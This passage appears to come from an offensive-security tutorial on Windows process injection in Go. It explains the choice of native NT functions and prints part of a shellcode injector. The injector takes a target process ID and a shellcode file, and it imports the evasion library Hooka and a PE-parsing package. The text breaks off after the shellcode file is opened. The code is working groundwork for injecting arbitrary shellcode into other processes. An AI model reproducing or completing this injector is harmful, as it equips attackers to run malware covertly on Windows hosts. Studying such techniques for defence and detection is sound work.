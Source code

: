```go
    arg3,
    ...
  )

  if ret != 0 {
    log.Fatal(err)
  }
}
```

I won’t explain in depth the usage of the native functions arguments, but I’ve chosen them as they’re easier to use with the handles and process because the common functions like OpenProcess directly return the process handle and we can’t do that if we’re executing the functions like this so it’s better with native functions.

There are some comments along the code to help you understanding it:

```go
package main

// Import packages
import (
  "os"
  "fmt"
  "log"
  "errors"
  "unsafe"
  "strconv"
  "io/ioutil"
  "encoding/hex"
  "crypto/sha256"
  "encoding/binary"

  "golang.org/x/sys/windows"

  "github.com/Binject/debug/pe"
  "github.com/D3Ext/Hooka/pkg/hooka"
)

// Define necessary struct
type ClientID struct {
  UniqueProcess uintptr
  UniqueThread  uintptr
}

// Already explained functions omitted for brevety

func main(){
  // Receive arguments via CLI
  pid_str := os.Args[1]
  shellcode_file := os.Args[2]
  fmt.Println("Process ID: " + pid_str)
  fmt.Println("Shellcode file: " + shellcode_file)

  // Convert CLI argument to int
  pid, _ := strconv.Atoi(pid_str)

  // Open given shellcode file
  f, err := os.Open(shellcode_file)
  if err != nil {
    log.Fatal(err)
  }
  defer f.Close()

```